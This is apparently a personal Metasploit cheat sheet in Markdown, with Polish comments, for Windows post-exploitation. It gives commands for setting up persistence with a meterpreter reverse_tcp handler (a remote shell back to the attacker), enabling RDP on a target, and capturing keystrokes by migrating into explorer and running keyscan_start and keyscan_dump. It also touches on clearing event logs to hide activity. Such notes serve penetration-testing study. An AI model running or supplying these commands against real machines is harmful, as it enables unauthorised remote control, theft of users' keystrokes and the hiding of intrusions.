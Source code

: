 | enable RDP on target                    | `post/windows/manage/enable_rdp`           |

## Privilege escalation

## Windows Persistence

https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/

```bash
exploit/windows/local/persistence_service
# set payload windows/meterpreter/reverse_tcp

use multi/handler
set payload windows/meterpreter/reverse_tcp # jak w exploicie wyżej
...
exploit
# opcje payload muszą być takie same
```

## Bypas UAC

https://www.hackingarticles.in/multiple-ways-to-bypass-uac-using-metasploit/

## Enabling RDP

pozwala dodać użytkownika ale nie trzeba

```bash
post/windows/manage/enable_rdp
```

## Windows Keylogging

```bash
# meterpreter
pgrep explorer # keystroke capture nie zawsze działa z innymi procesami
migrate 1234
keyscan_start # zacznij przechwytywanie
keyscan_dump # pokaż co przechwycono
keyscan_stop # koniec przechwytywania, nie zapisuje sie nigdzie
```

## Clearing Windows Event Logs

Event logs :

- Application logs: Stores application/program events like startups, crashes etc.
- System logs: Stores system events like startups, reboots etc.
- Security logs: Stores security events like password changes, authentication failures etc

Event logs can be accessed via the **Event Viewer on Windows**

